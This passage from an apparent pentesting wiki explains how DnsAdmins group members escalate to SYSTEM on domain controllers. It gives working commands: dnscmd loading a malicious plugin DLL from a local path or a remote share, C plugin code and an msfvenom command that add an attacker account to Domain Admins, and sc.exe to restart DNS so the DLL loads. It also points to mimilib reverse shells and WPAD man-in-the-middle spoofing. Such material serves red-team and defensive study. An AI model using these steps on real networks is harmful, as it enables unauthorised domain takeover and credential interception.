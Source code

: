 For a practical demonstration, see [DEMO VIDEO WITH IPPSEC](https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s).

## DnsAdmins

Members of the **DnsAdmins** group can exploit their privileges to load an arbitrary DLL with SYSTEM privileges on a DNS server, often hosted on Domain Controllers. This capability allows for significant exploitation potential.

To list members of the DnsAdmins group, use:

```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```

### Execute arbitrary DLL

Members can make the DNS server load an arbitrary DLL (either locally or from a remote share) using commands such as:

```powershell
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
An attacker could modify the DLL to add a user to the Domain Admins group or execute other commands with SYSTEM privileges. Example DLL modification and msfvenom usage:
```
```c
// Modify DLL to add user
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
    system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
    system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

```bash
// Generate DLL with msfvenom
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```

Restarting the DNS service (which may require additional permissions) is necessary for the DLL to be loaded:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

For more details on this attack vector, refer to ired.team.

#### Mimilib.dll
It's also feasible to use mimilib.dll for command execution, modifying it to execute specific commands or reverse shells. [Check this post](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) for more information.

### WPAD Record for MitM
DnsAdmins can manipulate DNS records to perform Man-in-the-Middle (MitM) attacks by creating a WPAD record after disabling the global query block list. Tools like Responder or Inveigh can be used for spoofing and capturing network traffic.
